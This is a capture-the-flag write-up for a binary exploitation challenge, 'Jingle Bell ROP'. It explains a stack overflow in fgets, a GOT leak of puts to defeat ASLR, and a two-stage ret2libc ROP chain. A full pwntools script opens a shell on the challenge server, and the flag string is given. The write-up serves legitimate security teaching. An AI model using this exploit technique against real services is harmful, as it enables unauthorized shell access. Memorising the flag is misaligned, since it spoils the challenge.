



# Jingle Bell ROP

- Published: 12/16/2024 (#16/25 in event)
- Category: Binary exploitation
- Points: 105
- Author: Vip3r

Angry Elf Glaki is at it again! He’s been hiding our toy designs deep in his server. We know there’s a single service
running and we managed to find the binary it’s running —can you pwn it and recover those locked-up designs?

`nc ctf.csd.lol 2020`

## Attachments

- [main](https://files.vipin.xyz/api/public/dl/GXzqAgQO/advent-of-ctf-csd/jingle-bell-rop/main)
- [libc.so.6](https://files.vipin.xyz/api/public/dl/pRiLdOSB/advent-of-ctf-csd/jingle-bell-rop/libc.so.6)

## Hints

**Hint 1:**

The `fgets()` function reads more bytes than the buffer can hold. This overflow allows you to control the return address
and execute ROP.

**Hint 2:**

Use the leaked address of `puts()` to calculate the libc base and craft a ROP chain to call `system("/bin/sh")` for
shell access.

## Write-up

<details>
<summary>Reveal write-up</summary>

First we do a checksec on the binary to check its protections:

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Since the binary has no canary we do not need a canary leak to write a ROP chain. Furthermore, since it has no PIE
(Position Independent Executable), the program is loaded at a constant offset every time we run it.

The program is rather small, and the Ghidra pseudocode is as follows (I have renamed some variables for simplicity):

```c
undefined8 main(void)
{
  FUN_004010a0(stdin,0,2,0);
  FUN_004010a0(stdout,0,2,0);
  puts("Welcome to Glaki\'s Evil Vault of Secrets!");
  puts("Only fellow evil elves may access the stolen schematics.");
  vuln();
  puts("Access denied! Goodbye!");
  return 0;
}
void vuln(void)
{
  char local_48 [64];

  printf("Glaki says: Enter the secret code to unlock the vault: ");
  fgets(local_48,0x80,stdin);
  printf("You entered: %s",local_48);
  return;
}
```

The main vulnerability here is that fgetsallows us to enter `0x80` (which is 128 in decimal) bytes into `local_48` when
it should only contain 64 characters. So we have a 64-byte overflow into the buffer, which is more than enough to write
a ROP chain.

However, the exploitation is not so straightforward since there is no win function in the binary. Which means that we
have to ret2libc in order to get a shell. We have to write 64 bytes to fill up the `local_64` buffer, followed by
another 8 bytes to fill saved RBP, then we can inject our ROP chain.

In order for us to do a ret2libc, we first need to figure out where libc is located. This is because the address of libc
is randomised with each run of the program. One way to get a libc leak is by viewing resolved GOT (Global Offset Table)
entries. These are places in the binary wherein the libc addresses of libc functions are stored. The GOT entries are
only resolved once the function has been called. I decided to leak the libc address of the putsfunction. We can find the
location of the GOT entry in the binary by debugging it in pwndbg, then using the got command.

For example in the snippet below, the GOT entry is located at address 0x404000in the binary and is resolved to the libc
address `0x7ffff7dfee50` (which is our libc leak).



So how do we write the ROP chain to get the libc leak? Well, we can make use of code which the program already provides!
Look at the following snippet at the end of the main function:



So if we jump to `0x401264` with RDI set to `0x404000`, we can effectively do puts(GOT entry of puts) which would give
us our libc leak. So our ROP chain would be something like

```txt
p64(POP_RDI) + p64(puts_got) + p64(0x401269) + p64(0)
```

Note that there is a `p64(0)` at the end because of the additional `pop rbp` instruction in main.

But what do we do after that?

In order to exploit the vulnerability after getting our libc leak, we can append to the ROP chain and force it to call
the vuln function again. This allows us to have a second chance at exploiting the buffer overflow. In other words our
first ROP chain would look something like this:

```txt
p64(POP_RDI) + p64(puts_got) + p64(0x401269) + p64(0) + p64(VULN)
```

However, using this ROP chain would cause our program to crash. The reason is because vuln starts with an `endbr64`
instruction, which would crash if our `rsp` value is not 16-bit aligned. As such, we need to add a RET instruction
before VULN in our ROP chain



So our finalised first ROP chain would be

```txt
p64(POP_RDI) + p64(PUTS_GOT) + p64(0x401269) + p64(0) + p64(RET) + p64(VULN)
```

After we run this ROP chain, we get the libc address of puts. We can use this to calculate the address of libc since the
offset between libc's address and the address of puts in that same libc file is always the same. From one run of the
program, my libc was at `0x7f5dd6f88000` while my puts was at `0x7f5dd700fbd0`. So I can just calculate the libc address
as such:

```py
addr = u64(p.recv(6) + b"\x00\x00") # this is the libc puts leak
libc.address = addr - (0x00007f5dd700fbd0 - 0x7f5dd6f88000)
```

Once we've gotten the leak and back to the vuln function for the second time, we can finally call system('/bin/sh')
using the system function in libc and the '/bin/sh' function in libc. pwntools makes forming such an ROP chain trivial:

```py
rop = ROP(libc)
binsh = next(libc.search("/bin/sh"))
rop.rdi = binsh
rop.rsi = 0
rop.raw(libc.sym['execve'])
# pause()
p.sendlineafter(b"vault: ", 0x48 * b'a' + rop.chain())
```

In summary, we:

Made a first ROP chain to do `puts(puts_got)` to get a libc leak and re-enter vuln

Made a second ROP chain to call `system('/bin/sh')`

My full exploit is given below:

```py
from pwn import *
# fill in binary name
elf = context.binary = ELF("./main")
# fill in libc name
ld = ELF("./ld-2.39.so")
libc = ELF("./libc.so.6")
context.log_level = 'debug'
if args.REMOTE:
  # fill in remote address
  p = remote("ctf.csd.lol", 2020)
else:
  p = process([ld.path, elf.path], env = {"LD_PRELOAD": libc.path})
  # p = elf.process()

PUTS_GOT = 0x404000
POP_RDI = 0x0000000000401196
TARGET1 = 0x401264
RET = 0x4011ed
VULN = 0x401198
# pause()
pl1 = 0x48 * b'a' + p64(POP_RDI) + p64(PUTS_GOT) + p64(TARGET1) + p64(0) + p64(RET) + p64(VULN)
p.sendlineafter(b"vault: ", pl1)
p.recvuntil(0x48 * b"a" + b"\x96\x11\x40")
addr = u64(p.recv(6) + b"\x00\x00")
libc.address = addr - (0x00007f5dd700fbd0 - 0x7f5dd6f88000)
log.info(f"libc base: {hex(libc.address)}")
rop = ROP(libc)
binsh = next(libc.search("/bin/sh"))
rop.rdi = binsh
rop.rsi = 0
rop.raw(libc.sym['execve'])
# pause()
p.sendlineafter(b"vault: ", 0x48 * b'a' + rop.chain())
p.interactive()
```

Flag: `csd{J1Ngl3_b3ll_r0CK_15_b357_XM45_50NG}`

</details>

Write-up by elijah5399
